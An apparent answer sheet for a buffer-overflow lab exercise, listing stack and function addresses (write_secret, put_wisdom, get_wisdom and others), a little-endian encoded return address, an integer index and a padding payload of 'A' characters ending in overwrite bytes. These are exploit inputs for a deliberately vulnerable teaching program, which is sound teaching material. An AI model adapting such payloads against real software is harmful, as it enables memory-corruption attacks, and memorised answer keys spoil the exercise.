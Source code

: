 Answers:

5. What is the address of 𝚋𝚞𝚏
    0xbffff130
6. What is the address of 𝚙𝚝𝚛𝚜
    0x804a0d4
7. What is the address of 𝚠𝚛𝚒𝚝𝚎_𝚜𝚎𝚌𝚛𝚎𝚝
    0x8048534
8. What is the address of 𝚙
    0xbffff534
9. 302066408
11. \x34\x85\x04\x08


write_secret = 0x8048534
pat_on_back  = 0x8048559
put_wisdom   = 0x8048627
get_wisdom   = 0x804857e



p = 0xbffff534
r = 0xbffff530

771675175\x00
AAAAA
AAAAA
AAAAA
AAAAA
AAAAA
AAAAA
AAAAA
AAAAA
AAAAA
AAAAA
AAAA
\xEE\xEE\xEE\xEE

10, then 4
